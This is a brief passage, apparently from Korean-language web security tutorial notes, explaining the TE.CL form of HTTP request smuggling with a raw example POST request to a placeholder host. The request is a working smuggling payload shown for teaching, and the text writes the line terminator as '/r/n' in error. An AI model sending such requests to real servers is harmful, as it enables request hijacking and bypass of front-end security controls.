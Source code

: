 ![CL-TE request](1.png)


## TE.CL 취약점
Front-end 서버에서 Transfer-Encoding을, Back-end 서버에서 Content-Length를 이용하여 패킷 길이 계산을 할 경우 아래와 같은 패킷을 Front-end 서버에 전송하여 공격을 수행할 수 있습니다.
> 마지막 0 이후에 ‘/r/n/r/n’을 포함해야 합니다.
> 

```
POST / HTTP/1.1
Host: vuln-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```
